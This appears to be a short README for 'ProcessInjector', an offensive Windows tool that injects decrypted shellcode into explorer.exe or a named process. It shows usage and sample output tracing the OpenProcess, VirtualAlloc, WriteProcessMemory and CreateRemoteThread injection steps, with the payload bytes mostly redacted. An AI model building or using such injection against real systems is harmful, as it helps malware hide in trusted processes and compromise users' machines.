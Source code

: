 ## ProcessInjector ##

Execute the tool by its own and it will inject into explorer.exe otherwise use the first argument to inject within another process name. Example: `processinjector.exe notepad`


```
ProcessInjector.exe
Without any input default process to be inejcted is explorer
Process ID of explorer is 4944
OpenProcess succeeded, handle = 708
VirtualAlloc succeeded, pointer = 8323072

The Decrypted Bytearray:
0xFC, 0x48, 0x83, 0xE4, 0xF0, <readacted>

WriteProcessMemory succeeded
CreateRemoteThread succeeded, thread ID = 900
```
